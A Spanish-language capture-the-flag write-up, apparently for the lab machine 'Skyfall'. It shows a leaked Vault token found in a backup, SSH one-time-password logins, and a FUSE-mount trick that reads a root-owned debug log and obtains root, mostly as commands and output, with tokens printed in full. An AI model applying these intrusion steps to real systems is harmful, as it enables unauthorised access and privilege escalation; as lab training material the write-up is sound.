Al extraer el comprimido vemos muchos mas archivos.
```console
$ tar -xvf home_backup_v1.tar.gz                                                                         
./                                                                                                               
./.profile                                                                                                       
./terraform-generator/                                                                                           
./terraform-generator/.eslintrc.json                                                                             
./terraform-generator/package.json                                                                               
./terraform-generator/src/                                                                                       
./terraform-generator/src/TerraformGenerator.ts                                                                  
./terraform-generator/src/arguments/                                                                             
./terraform-generator/src/arguments/index.ts                                                                     
./terraform-generator/src/arguments/Function.ts
.......
```

Vemos un proyecto, vamos a comprobar que no haya ninguna credencial hardcodeada o algo interesante.

Utilizando un SAST (Static Application Security Testing) no encontré nada en el código de la aplicación.

No encontré nada en esta versión tampoco.

Vamos a descargar ahora la versión `2b75346d-2a47-4203-ab09-3c9f878466b8`

```console
$ ./mc cp --version-id 2b75346d-2a47-4203-ab09-3c9f878466b8 skyfall/askyy/home_backup.tar.gz ./home_backup_v2.tar.gz
...me_backup.tar.gz: 2.64 KiB / 2.64 KiB ┃▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓┃ 16.31 KiB/s 0s
```

Revisando el archivo `.bashrc` de esta versión encontramos lo siguiente.
```console
export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"                                                  
export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQ
VE"
```



Encontramos otro subdominio, `prd23-vault-internal.skyfall.htb`, lo añadimos al `/etc/hosts`

## Abusing Vault OTP -> Foothold
Al buscar `VAULT_TOKEN` encontramos lo siguiente, pertenece a `Vault` de `HashiCorp`, esto lo hemos tocado ya en otras máquinas, sirven para poder gestionar secretos, contraseñas, certificados, tokens.. También sirve para hacer rotación de secretos, es decir, crear un OTP para acceder por SSH por ejemplo.


Según la documentación, podemos establecer la URL mediante el parámetro `-address` pero nos sale un error.
```console
$ vault login -address "http://prd23-vault-internal.skyfall.htb"
WARNING! VAULT_ADDR and -address unset. Defaulting to https://127.0.0.1:8200.
Token (will be hidden): 
```

Así que vamos a hacerle caso y vamos a exportar la variable de entorno `VAULT_ADDR`

```console
$ export VAULT_ADDR=http://prd23-vault-internal.skyfall.htb
```

Y podemos hacer el login con el token que nos hemos encontrado antes.
```console
$ vault login
Token (will be hidden): 
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE
token_accessor       rByv1coOBC9ITZpzqbDtTUm8
token_duration       430779h34m8s
token_renewable      true
token_policies       ["default" "developers"]
identity_policies    []
policies             ["default" "developers"]
```

Podemos deducir que este token es de el usuario `askyy`


Vemos que en policies pone `default developers`, esto significa que nuestra política es una llamada `developers`

Podemos ver los permisos que tenemos sobre esta política.
```console
$ vault token capabilities sys/policy/developers
read
```

Podemos ver que hace esta política.
```console
$ vault read sys/policy/developers
Key      Value
---      -----
name     developers
rules    path "sys/policy/developers" {
  capabilities = [  "read" ]
}

path "ssh/*" {
  capabilities = [ "list" ]
}

path "ssh/creds/dev_otp_key_role" {
  capabilities = ["create", "read", "update"]
}
```

Vemos que tenemos una capability de crear un OTP para un rol llamado `dev_otp_key_role` este rol es para la conexión por SSH.

Podemos listar todos los roles 
```console
$ vault list ssh/roles
Keys
----
admin_otp_key_role
dev_otp_key_role
```

Podemos generar un OTP y conectarnos por ssh
```console
$ vault ssh -role dev_otp_key_role askyy@10.129.230.158                                                                                                              
WARNING: No -mode specified. Use -mode to tell Vault which ssh authentication                                                                                                
mode to use. In the future, you will need to tell Vault which mode to use.                                             
For now, Vault will attempt to guess based on the API response. This guess                                                                                                   
involves creating a temporary credential, reading its type, and then revoking                                          
it. To reduce the number of API calls and surface area, specify -mode                                                  
directly. This will be removed in Vault 1.1.               
Failed to revoke temporary key: Error making API request.                                                                                                                                                          
                                                                                                                                                                                                                   
URL: PUT http://prd23-vault-internal.skyfall.htb/v1/sys/leases/revoke                                            
Code: 403. Errors:                                                                                               
                                                                                                         
* 1 error occurred:                                                                                                                               
        * permission denied                                                                                                                       
                                                                         
                                                                         
Vault could not locate "sshpass". The OTP code for the session is displayed                                                                       
below. Enter this code in the SSH password prompt. If you install sshpass,                                             
Vault can automatically perform this step for you.                                                                                                                           
OTP for the session is: 3350605a-bad7-0e83-b8d4-ea63a3fe5b5c                                                                                                                 
flag provided but not defined: -p                                                     
Usage of vault plugin settings:                                                       
  -ca-cert string                                                                                                                                                            
                                           
  -ca-path string                                   
                                                                                                                                                                                                                   
  -client-cert string                                                                                                                                                                                              
                                                                                                         
  -client-key string                                                                                     
                                                                                                                                                                                                                   
  -tls-server-name string                           
                                                           
  -tls-skip-verify                                         
                                                           
This binary is a plugin. These are not meant to be executed directly.                                                  
Please execute the program that consumes these plugins, which will                                                     
load any plugins automatically                             
failed to run ssh command: exit status 1 
```

Si nos sale ese error, simplemente podemos coger el código OTP generado, `3350605a-bad7-0e83-b8d4-ea63a3fe5b5c`  y conectarnos por SSH al usuario.
```console
$ ssh askyy@10.129.230.158
(askyy@10.129.230.158) Password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Sep  5 17:40:53 2024 from 10.10.14.125
askyy@skyfall:~$ id
uid=1000(askyy) gid=1000(askyy) groups=1000(askyy)
```

Podemos ver la flag de usuario.
```console
askyy@skyfall:~$ cat user.txt 
a91436efa69ab...
```

# Privilege Escalation

## Exploiting Vault-Unseal
Vemos que el usuario `askyy` tiene los siguientes permisos para ejecutar como el usuario que quiera y sin contraseña.
```console
askyy@skyfall:~$ sudo -l
Matching Defaults entries for askyy on skyfall:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal ^-c /etc/vault-unseal.yaml -[vhd]+$
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml
```

Como responde a la expresión regular `-[vhd]+` podemos ver varios parámetros, por ejemplo la ayuda.

```console
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -h
Usage:
  vault-unseal [OPTIONS]

Application Options:
  -v, --verbose        enable verbose output
  -d, --debug          enable debugging output to file (extra logging)
  -c, --config=PATH    path to configuration file

Help Options:
  -h, --help           Show this help message
```

Si probamos el parámetro `-d` para activar el modo depuración.
```console
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -d
[>] Checking seal status
[+] Vault sealed: false
```

Nos damos cuenta de que genera un fichero `debug.log` del usuario `root` el cual no tenemos permisos sobre el.
```console
askyy@skyfall:~$ ls -la
total 36
drwxr-x--- 4 askyy askyy 4096 Sep  5 17:45 .
drwxr-xr-x 3 root  root  4096 Jan 19  2024 ..
lrwxrwxrwx 1 askyy askyy    9 Nov  9  2023 .bash_history -> /dev/null
-rw-r--r-- 1 askyy askyy  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 askyy askyy 3771 Nov  9  2023 .bashrc
drwx------ 2 askyy askyy 4096 Oct  9  2023 .cache
-rw-r--r-- 1 askyy askyy  807 Jan  6  2022 .profile
drwx------ 2 askyy askyy 4096 Jan 18  2024 .ssh
-rw------- 1 root  root   555 Sep  5 17:45 debug.log
-rw-r----- 1 root  askyy   33 Sep  5 15:54 user.txt
```

Además tampoco podíamos acceder al fichero `/etc/vault-unseal.yml`
```console
askyy@skyfall:~$ cat /etc/vault-unseal.yaml
cat: /etc/vault-unseal.yaml: Permission denied
```

Después de pensar un rato no se me ocurrió nada y tuve que mirar una pista.

Me acuerdo de una máquina donde encontrábamos un recurso NFS que podíamos montar, esta era la máquina `Squashed` y esto pasaba porque ocurría en NFS un UID/GUID mismatch.

> If you mount a folder which contains **files or folders only accesible by some user** (by **UID**). You can **create** **locally** a user with that **UID** and using that **user** you will be able to **access** the file/folder.

Lo que vamos a hacer es algo similar

## Bypass Unix permissions with FUSE mount 

Como controlamos el directorio en el que nos encontramos, podemos crear un FUSE mount con `sshfs` que nos permitirá montar de forma local en nuestro equipo un sistema de ficheros utilizando SFTP a un equipo remoto ya que la mayoría de los servidores SSH soportan y tienen habilitados por defecto el acceso SFTP. Cuando hagamos esto conseguiremos que todos los archivos del directorio en el que nos encontramos (`/home/askyy`) sean del usuario `askyy` , incluido el fichero `debug.log` por lo cual podríamos leer su contenido.

Nos encontramos [este post de StackOverflow](https://stackoverflow.com/questions/11988464/mount-remote-file-system-using-sshfs-and-without-root-permission) que habla de como realizar esta montura y sin necesidad de permisos de superusuarios.

Instalamos `sshfs`
```console
 sudo apt-get install sshfs
```

Creamos una carpeta para montar.
```console
$ mkdir /tmp/askyy
```

Al intentar montar nos sale un error.
```console
$ sshfs -o allow_other askyy@10.129.230.158:/home/askyy /tmp/askyy -d
SSHFS version 3.7.3
fusermount3: option allow_other only allowed if 'user_allow_other' is set in /etc/fuse.conf
```

Vamos a cambiar la opción `user_allow_other` de la configuración `/etc/fuse.conf`.

Simplemente desmarcamos la línea 10.


En la máquina víctima ya está desmarcada.
```console
askyy@skyfall:~$ cat /etc/fuse.conf 
# The file /etc/fuse.conf allows for the following parameters:
#
# user_allow_other - Using the allow_other mount option works fine as root, in
# order to have it work as user you need user_allow_other in /etc/fuse.conf as
# well. (This option allows users to use the allow_other option.) You need
# allow_other if you want users other than the owner to access a mounted fuse.
# This option must appear on a line by itself. There is no value, just the
# presence of the option.

user_allow_other


# mount_max = n - this option sets the maximum number of mounts.
# Currently (2014) it must be typed exactly as shown
# (with a single space before and after the equals sign).

#mount_max = 1000
```

Nos pide una contraseña.
```console
$ sshfs -o allow_other askyy@10.129.230.158:/home/askyy /tmp/askyy -d
SSHFS version 3.7.3
executing <ssh> <-x> <-a> <-oClearAllForwardings=yes> <-2> <askyy@10.129.230.158> <-s> <sftp>
(askyy@10.129.230.158) Password:
```

Vamos a generar un token OTP como antes.
```console
$ vault ssh -role dev_otp_key_role askyy@10.129.230.158
```

Nos copiamos el token y lo pegamos para montar el sistema de ficheros.


Ahora si accedemos a `/tmp/askyy` vemos que `debug.log` es del usuario `root`, pero como estamos en nuestro equipo local simplemente podemos hacer un `sudo cat debug.log` y podemos leer el archivo.
```console
$ ls -la
total 36
drwxr-x--- 1 pointedsec lpadmin 4096 sep  5 19:45 .
drwxrwxrwt 1 root       root    1254 sep  5 20:26 ..
lrwxrwxrwx 1 pointedsec lpadmin    9 nov  9  2023 .bash_history -> /dev/null
-rw-r--r-- 1 pointedsec lpadmin  220 ene  6  2022 .bash_logout
-rw-r--r-- 1 pointedsec lpadmin 3771 nov  9  2023 .bashrc
drwx------ 1 pointedsec lpadmin 4096 oct  9  2023 .cache
-rw------- 1 root       root     555 sep  5 19:45 debug.log
-rw-r--r-- 1 pointedsec lpadmin  807 ene  6  2022 .profile
drwx------ 1 pointedsec lpadmin 4096 ene 18  2024 .ssh
-rw-r----- 1 root       lpadmin   33 sep  5 17:54 user.txt
```

Esto no funciona y me di cuenta de que entendí mal en concepto, lo que queremos hacer es aprovecharnos de que la opción `user_allow_other` está desmarcada en la máquina víctima, por lo cual esto lo tenemos que hacer en local en la máquina víctima.

Para esto podemos utilizar [este repositorio de Github](https://github.com/hanwen/go-fuse) el cual tiene varios ejemplos programados en go, uno de ellos es `memfs`. 

Sirve para hacer lo mismo que `sshfs`

Clonamos el repositorio en nuestra máquina.
```console
$ git clone https://github.com/hanwen/go-fuse
Cloning into 'go-fuse'...
remote: Enumerating objects: 13238, done.
remote: Counting objects: 100% (3744/3744), done.
remote: Compressing objects: 100% (775/775), done.
remote: Total 13238 (delta 3208), reused 3029 (delta 2965), pack-reused 9494 (from 1)
Receiving objects: 100% (13238/13238), 3.92 MiB | 757.00 KiB/s, done.
Resolving deltas: 100% (8781/8781), done.
```

Nos dirigimos donde está esta herramienta.
```console
$ cd go-fuse/example/memfs/
```

Compilamos la herramienta.
```console
$ go build
go: downloading golang.org/x/sys v0.0.0-20220520151302-bc2c85ada10a
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/skyfall/content/go-fuse/example/memfs]
└──╼ [★]$ ls -la
total 3208
drwxr-xr-x 1 pointedsec pointedsec      24 sep  5 20:42 .
drwxr-xr-x 1 pointedsec pointedsec     158 sep  5 20:41 ..
-rw-r--r-- 1 pointedsec pointedsec     957 sep  5 20:41 main.go
-rwxr-xr-x 1 pointedsec pointedsec 3280384 sep  5 20:42 memfs
```

Ahora en la máquina víctima nos descargamos esta herramienta ya compilada.
```console
askyy@skyfall:~$ wget http://10.10.14.125:8081/memfs .
```

Le damos permisos de ejecución y probamos a ejecutarla para ver que se ha compilado correctamente.
```console
askyy@skyfall:~$ chmod +x memfs 
askyy@skyfall:~$ ./memfs 
usage: main MOUNTPOINT BACKING-PREFIX
```

Vemos que podemos montar nuestra carpeta actual en `test/`, ahora solo necesitamos otra sesión de SSH y ver que todo ha salido bien y podemos acceder a `debug.log`
```console
askyy@skyfall:~$ mkdir /tmp/test
askyy@skyfall:~$ ./memfs /home/askyy /tmp/test
Mounted!
```

Al hacer la montura e intentar crear otra vez el archivo vemos que no sale bien.
```console
askyy@skyfall:/tmp/test$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -d
[>] Checking seal status
[+] Vault sealed: false
askyy@skyfall:/tmp/test$ ls -la
total 12
drwxrwxr-x  2 askyy askyy 4096 Sep  5 18:54 .
drwxrwxrwt 13 root  root  4096 Sep  5 18:53 ..
-rw-------  1 root  root   555 Sep  5 18:54 debug.log
askyy@skyfall:/tmp/test$ cat debug.log 
cat: debug.log: Permission denied
askyy@skyfall:/tmp/test$ 
```

Después de volverme loco un rato, añadí esta línea en el `main.go` de `memfs`, lo montamos otra vez y nos lo mandamos a la máquina víctima.


Ahora creamos otra vez la montura en una carpeta distinta.
```console
askyy@skyfall:~$ mkdir /tmp/test3
askyy@skyfall:~$ ./memfs /tmp/test3/ test
Mounted!
```

Y ahora sí, vemos que ahora `debug.log` es del usuario `askyy`
```console
askyy@skyfall:/tmp/test3$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -d
[>] Checking seal status
[+] Vault sealed: false
askyy@skyfall:/tmp/test3$ ls -la
total 8
drwxrwxrwx  1 askyy askyy    0 Sep  5 18:57 .
drwxrwxrwt 15 root  root  4096 Sep  5 18:57 ..
-rw-------  1 askyy askyy  555 Sep  5 18:57 debug.log
```

Al leerlo vemos otro token distinto que el que teníamos para `vault`
```console
askyy@skyfall:/tmp/test3$ cat debug.log 
2024/09/05 18:57:55 Initializing logger...
2024/09/05 18:57:55 Reading: /etc/vault-unseal.yaml
2024/09/05 18:57:55 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/09/05 18:57:55 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/09/05 18:57:55 Check interval: 5s
2024/09/05 18:57:55 Max checks: 5
2024/09/05 18:57:55 Establishing connection to Vault...
2024/09/05 18:57:55 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
2024/09/05 18:57:55 Checking seal status
2024/09/05 18:57:55 Vault sealed: false
```

El token es `hvs.I0ewVsmaKU1SwVZAKR3T0mmG`

## Generating OTP for root

Ahora podemos utilizar este token para iniciar sesión con `vault`
```console
$ export VAULT_ADDR=http://prd23-vault-internal.skyfall.htb
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/skyfall/content]
└──╼ [★]$ vault login
Token (will be hidden): 
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                hvs.I0ewVsmaKU1SwVZAKR3T0mmG
token_accessor       bXBeXR3r92WGQ8XgEDx6pIFu
token_duration       ∞
token_renewable      false
token_policies       ["root"]
identity_policies    []
policies             ["root"]
```

Ahora vemos que la policy es de `root` no de `developer`

Podemos comprobar otra vez los roles SSH.
```console
$ vault list ssh/roles
Keys
----
admin_otp_key_role
dev_otp_key_role
```

Ahora podemos generar un token OTP para acceder por SSH como `root`
```console
$ vault ssh -role admin_otp_key_role root@10.129.230.158                                                 
WARNING: No -mode specified. Use -mode to tell Vault which ssh authentication                                    
mode to use. In the future, you will need to tell Vault which mode to use.                                       
For now, Vault will attempt to guess based on the API response. This guess                                       
involves creating a temporary credential, reading its type, and then revoking                                    
it. To reduce the number of API calls and surface area, specify -mode                                            
directly. This will be removed in Vault 1.1.                                                                     
Vault could not locate "sshpass". The OTP code for the session is displayed                                      
below. Enter this code in the SSH password prompt. If you install sshpass,                                       
Vault can automatically perform this step for you.                                                               
OTP for the session is: 8332584b-b160-c8d1-71ad-f07c1a4356a4                                                     
flag provided but not defined: -p
Usage of vault plugin settings:
  -ca-cert string
.....
```

Ahora iniciamos sesión utilizando el token OTP `8332584b-b160-c8d1-71ad-f07c1a4356a4 ` como contraseña.

```console
$ ssh root@10.129.230.158
(root@10.129.230.158) Password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Mar 27 13:20:05 2024 from 10.10.14.46
root@skyfall:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos leer la flag de `root`
```console
root@skyfall:~# cat root.txt 
7df601471d54e17a...
```

¡Y ya estaría!

Happy Hacking! 🚀